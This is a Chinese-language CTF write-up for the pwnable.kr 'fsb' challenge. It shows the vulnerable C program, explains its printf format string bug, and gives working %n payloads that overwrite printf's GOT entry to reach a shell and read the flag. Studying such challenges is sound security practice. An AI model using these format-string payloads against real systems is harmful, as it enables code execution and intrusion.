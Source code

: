 ```yaml
---
title: pwnable.kr-fsb
date: 2018-02-27 14:04:54
tags: [pwnable.kr,PWN]
categories: CTF
---
```

# 前言
这是一道考察`printf`格式化字符串漏洞利用的题目，总的来说很简单，但是我却花了很长时间，主要是我有点太马虎没仔细分析代码，笑哭。
# 分析
先分析源代码`fsb.c`
```c
#include <stdio.h>
#include <alloca.h>
#include <fcntl.h>

unsigned long long key;
char buf[100];
char buf2[100];

int fsb(char** argv, char** envp){
	char* args[]={"/bin/sh", 0};
	int i;

	char*** pargv = &argv;
	char*** penvp = &envp;
        char** arg;
        char* c;
        for(arg=argv;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
        for(arg=envp;*arg;arg++) for(c=*arg; *c;c++) *c='\0';
	*pargv=0;
	*penvp=0;

	for(i=0; i<4; i++){
		printf("Give me some format strings(%d)\n", i+1);
		read(0, buf, 100);
		printf(buf);
	}

	printf("Wait a sec...\n");
        sleep(3);

        printf("key : \n");
        read(0, buf2, 100);
        unsigned long long pw = strtoull(buf2, 0, 10);
        if(pw == key){
                printf("Congratz!\n");
                execve(args[0], args, 0);
                return 0;
        }

        printf("Incorrect key \n");
	return 0;
}

int main(int argc, char* argv[], char** envp){

	int fd = open("/dev/urandom", O_RDONLY);
	if( fd==-1 || read(fd, &key, 8) != 8 ){
		printf("Error, tell admin\n");
		return 0;
	}
	close(fd);

	alloca(0x12345 & key);

	fsb(argv, envp); // exploit this format string bug!
	return 0;
}

```
程序先获得一个8字节的随机数存于全局变量`key`中，然后调用`alloca`函数在栈上分配内存。之后调用`fsb`函数。在这个函数内部要想达到`exeve`函数执行shell，就必须输入正确的`key`值。
这个`fsb`函数在`printf(buf)`处存在格式化字符串漏洞，关于漏洞利用网上有很多就不罗嗦了。那么要getshell其实方法有很多，可以改写`got`表也可以`leak`出key的值。这里直接改写`got`表好了，可以把`printf`的地址改写为要执行shell的地址，这样当执行`printf`时就跳到shell中了。
下面是exp
```bash
//各种地址和偏移在反汇编代码中就可以看出来，就不一一分析了
%134520836c%14$n //把printf的got表地址写入fsb函数的第一个参数中（方法很多你可以写到栈上的很多位置）
%134514347c%20$n //向printf的got表写入要执行shell的地址
```
```bash
fsb@ubuntu:~$ ./fsb >/dev/null 2>&1
%134520836c%14$n
%134514347c%20$n
cat flag >/tmp/flag
exit
fsb@ubuntu:~$ cat /tmp/flag
Have you ever saw an example of utilizing [n] format character?? :(
fsb@ubuntu:~$ 
```
要注意的是需要把程序的标准输出和错误输出重定向到`/dev/null`，这样就不会因为输出数据过多而卡死了。
# 总结
还是简单的格式化字符串漏洞的题目，利用方法很多，当时因为一直想通过`alloca`函数来计算`key`而浪费了很多时间，然而这样计算出来的只是前4字节，唉要细心啊。。